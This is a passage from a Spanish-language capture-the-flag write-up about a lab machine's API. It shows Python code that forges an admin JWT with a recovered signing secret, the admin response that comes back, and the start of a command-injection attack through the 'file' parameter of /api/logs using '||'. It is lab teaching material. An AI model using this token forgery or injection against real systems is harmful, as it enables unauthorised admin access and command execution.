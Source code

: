 Bien, [según la documentación de la **API**](http://10.10.11.120/docs#section-6) para generar la correcta visita a `/priv` y `/logs` tenemos que colocar ese **JWT** en el header `auth-token`, probemos:

```python
...
def priv():
    data_post = {
        "_id": "1",
        "name": "theadmin",
        "email": email,
        "iat": "1"
    }
    jwt_token = jwt.encode(data_post, secret_token, algorithm="HS256")

    headers = {"auth-token":jwt_token}

    r = s.get(URL + '/api/priv', headers=headers)
    print(r.text)
...
priv()
```

```bash
❱ python3 playWITHapi.py 
{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}
```

**ESOOOOOOOOOOOOOOOOOO** somos `theadmin`! Pues veamos `/logs` y rompamos esta vaina (:

## Aprovechando <u>Command-Injection</u> [📌](#logs-command-injection) {#logs-command-injection}

Solo debemos cambiar la ruta a la que consultamos por `URL + '/api/logs'`, nos devuelve:

```bash
❱ python3 playWITHapi.py 
{"killed":false,"code":128,"signal":null,"cmd":"git log --oneline undefined"}
```

Ahí tenemos el resultado del comando que ejecuta el programa, es erróneo, ya que (si recordamos) la aplicación recibe el parámetro `file` y lo concatena con el comando, o sea:

```python
...
r = s.get(URL + '/api/logs', params={"file":"hola"}, headers=headers)
...
```

```bash
❱ python3 playWITHapi.py 
{"killed":false,"code":128,"signal":null,"cmd":"git log --oneline hola"}
```

Sigue existiendo el error, peeero el "archivo" es interpretado. Pues nada, inyectemos por ejemplo el comando `id` (como hay errores, en lugar de usar `;` usemos `||` para que el sistema haga un "si este comando NO sirve, haz este"):
